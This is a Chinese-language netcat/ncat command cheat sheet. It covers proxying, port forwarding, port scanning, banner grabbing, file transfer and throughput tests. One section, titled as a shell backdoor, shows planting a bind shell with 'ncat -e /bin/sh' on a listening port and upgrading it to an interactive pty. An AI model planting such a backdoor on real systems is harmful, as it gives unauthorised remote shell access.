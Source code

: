## nc 命令
```
$ nc --version
GNU netcat 0.7.1, a rewrite of the famous networking tool.

$ ncat -h
OpenBSD netcat
This is nc from the netcat-openbsd package. An alternative nc is available
```

### ncat 带有 socks 功能
```
ncat -X 5 -x 127.0.0.1:9150 -q 3 -v program-think.blogspot.com 443
```

### ncat 端口转发
```
mkfifo nc_pipe
nc -l -p 1234 < nc_pipe | nc 127.0.0.1 5678 > nc_pipe
```

### nc 自带端口扫描过滤功能
```
nc -zvn 192.168.0.102 1-6553
```

### 信息收集
``` 
echo "EXIT" | ncat -vq 5 -n 192.168.10.102 22
Connection to 192.168.10.102 22 port [tcp/*] succeeded!

echo "EXIT" | ncat -vq 5 192.168.10.102 22
Connection to 192.168.10.102 22 port [tcp/ssh] succeeded!

echo "EXIT" | nc -v -n 192.168.10.102 22
192.168.10.102 22 (ssh) open 
``` 

### 网页交互
```
 echo -e "GET / HTTP/1.0\r\n\r\n" | nc -v sspai.com 80 > sspai.html 
```

### nc 聊天
```
macOS
nc -l -p 1078

Linux
nc 192.168.0.104 1078
```

### nc 代理
```
ncat -X 5 -x 127.0.0.1:9050 -q 3 -v program-think.blogspot.com 443
```

### 传输数据
```
接收数据 注意必须是 ncat
ncat -l 8080 > new.txt
nc 127.0.0.1 1111 | pv > movie.mp4

发送数据
nc 192.168.0.104 8080 < new.txt
pv movie.mp4 | nc -l -p 1111
```

### 压缩传输
```
服务端
tar -c book |nc -l 9999

客户端
nc 192.168.1.12 9999 | tar -x
```

### nc shell 后门
```
植入后门
ncat -l -p 6666 -e /bin/sh
ncat -l -p -k 6666 -e /bin/sh

连接后门
nc -v 192.168.0.104 6666

python -c 'import pty; pty.spawn("/bin/bash")'
```

### 下载速度
```
server
pv /dev/zero | nc -l -p 1111

client
nc 192.168.0.104 1111
```

### 上传速度
```
server
nc -l -p 80 | pv

client
nc 23.100.90.119 80 < /dev/zero
```